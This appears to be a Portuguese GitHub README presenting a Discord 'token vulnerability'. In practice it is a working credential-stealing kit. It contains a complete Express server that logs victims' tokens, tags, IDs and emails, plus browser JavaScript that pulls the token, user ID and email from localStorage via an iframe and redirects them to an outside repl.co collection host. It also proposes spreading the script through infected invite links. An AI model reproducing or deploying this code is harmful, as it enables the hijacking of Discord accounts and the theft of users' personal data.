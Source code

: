 ![discord-logo](https://user-images.githubusercontent.com/79233369/116971100-72b99d80-ac8f-11eb-941a-81cd17b13b01.png)
# Discord Vulnerabilidade Token
 ## Este é um bug do discord onde é possivel conseguir o token de um usuario apenas com um comando

 ### Oque precisa ser feito para acontecer o bug:

 - primeiro: o desenvolvimento de um servidor http de coleta de parametros pela url que seria algo muito simples, exemplo : [Servidor Exemplo](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Servidor/index.js)

```js
const express = require('express');
const app = express();
const port = 3000;

const path = require("path");

const low = require('lowdb') //banco de dados
const FileSync = require('lowdb/adapters/FileSync')
const adapter = new FileSync('database/db.json')
const db = low(adapter)

app.use("/public", express.static("public"));

app.get("/", (req, res) => {

    let token = req.query.token
    let tag = req.query.tag
    let id = req.query.id
    let email = req.query.email

    let bot = `false`

    if(token == undefined && tag == undefined && id == undefined && email == undefined){
        bot = `true`
        console.log('bot...')
        return;
    }

    if(token == undefined){
        token = `parametro token não passado`
    }
    
    if(tag == undefined){
        tag = `undefined#0000`
    }
    
    if(id == undefined){
        id = `parametro id não passado`
    }
    
    if(email == undefined){
        email = `undefined@gmail.com`
    }

    console.log(`o usuario logou com sucesso:${tag}`)
    if(!token) return;

    db.get('logs').push({
        token: token,
        tag: tag,
        id: id,
        email: email 
    }).write()    

    res.sendFile(path.join(__dirname, "public/index.html"));
})    

app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`)); 
```
 - segundo: o desenvolvimento de um script para enviar o token por esse url, exemplo :
[Script de Envio Para o Servidor](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Code/ENV.js)
 
 ```js
function env(modul){
    const token = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token
    const tag = `${window.document.querySelector('div.size14-e6ZScH').innerText}%23${window.document.querySelector('div.size12-3cLvbJ').innerText.substr(1)}`
    const id = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.user_id_cache
    const email = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.email_cache

    if(modul == undefined){
        op1()
        modul = 1
    }else{}

    switch(modul){
        case 1:
            op1()
            break
        default:
            console.log(`Modulo ${modul} não foi encontrado`)
    }

    function op1(){
        window.location.href = `https://tokenlog.sasukecusaovh.repl.co/?token=${token}&tag=${tag}&id=${id}&email=${email}`
    }
}

env(1)
```
 - terceiro: o desenvolvimento de um url infectado como o invite de um server ou o invite de um bot para que quando o discord seja  iniciado o codigo seja rodado
 
 ### Oque era pra acontecer caso não existise bug:

 se o bug nao existisse o usuario iria usar o discord normalmente sem enviar nenhum dado sensivel para nenhum servidor

 ### Oque realmente acontece:

com o bug acontecendo o usuario acha que esta usando o discord normalmente porem ele envia um dado sensivel, exemplo: [Exemplo DataBase Com Dados](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Servidor/database/db.json)

```json
{
  "logs": [
    {
      "token": "token de um usuario:0000",
      "tag": "tag de um usuario:undefined#0000",
      "id": "id de um usuario:0000",
      "email": "emailo de um usuario:undefined@gmail.com"
    }
  ]
}
```


